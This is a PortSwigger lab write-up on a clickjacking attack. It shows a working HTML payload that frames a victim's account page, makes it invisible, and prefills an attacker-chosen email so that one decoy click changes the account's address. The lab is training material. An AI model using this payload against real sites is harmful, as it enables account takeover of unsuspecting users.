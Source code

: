 
### Clickjacking with form input data prefilled from a URL parameter : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.


> Login via the given credentials and head to the my-account page.

![](./screenshots/lab2-1.png)

> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked prepopulates the email form and updates email.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account"> </iframe> 
</body>
```

> In order to prefill the email, we need to first know the parameter name. 
> Doing that by inspecting the form element.

![](./screenshots/lab2-2.png)

> It's `email`.
> Seeing if we can place `email` as a query parameter in the URl bar to see if it supports prepopulation.

![](./screenshots/lab2-3.png)

> We added the email `newmi11ns@mins.com` as a query parameter and then requested that page, and in the response, we see the form has one of its inputs filled with the value we entered.
> Therefore, all that is remaining is for the user to click on the update email button for that value to be processed and used to become the new email.

> Thus, our HTML clickjacking payload will look like:
```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```
> Similar to [[Portswigger/Clickjacking/Lab 1|Lab 1]], we first made sure that the 2 elements are exactly on top of another, the click and the update email button by putting the payload in the exploit server and viewing it.
> After we do that, we set the opacity to `0.00001` in order to make the actual target webpage transparent.

![](./screenshots/lab2-4.png)

> Delivering the exploit to victim completes the lab.

---




